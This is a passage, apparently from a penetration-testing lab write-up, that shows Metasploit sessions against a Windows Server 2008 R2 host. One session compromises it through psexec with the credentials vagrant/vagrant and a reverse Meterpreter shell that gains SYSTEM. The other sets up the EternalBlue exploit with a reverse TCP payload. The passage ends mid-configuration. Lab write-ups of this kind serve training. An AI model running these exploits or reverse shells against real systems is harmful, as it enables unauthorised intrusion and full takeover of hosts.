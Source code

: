 ```bash
msf6 exploit(windows/smb/psexec) > setg SMBUSER vagrant
SMBUSER => vagrant
msf6 exploit(windows/smb/psexec) > setg SMBPASS vagrant
SMBPASS => vagrant
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.22.2:4444 
[*] 10.4.18.58:445 - Connecting to the server...
[*] 10.4.18.58:445 - Authenticating to 10.4.18.58:445 as user 'vagrant'...
[*] 10.4.18.58:445 - Selecting PowerShell target
[*] 10.4.18.58:445 - Executing the payload...
[+] 10.4.18.58:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.4.18.58
[*] Meterpreter session 2 opened (10.10.22.2:4444 -> 10.4.18.58:50110 ) at 2024-02-12 00:45:51 +0530

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```





**login to the target system with Eternal blue vulnerability**

because this machine is windows 2008 R2 and smb is enabled on it, so we can exploit it with Eternal blue vulnerability without any credentials 

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.4.18.58       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target m
                                             achines.
   SMBPass        		           no        (Optional) The password for the specified username
   SMBUser        		           no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machi
                                             nes.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.22.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
```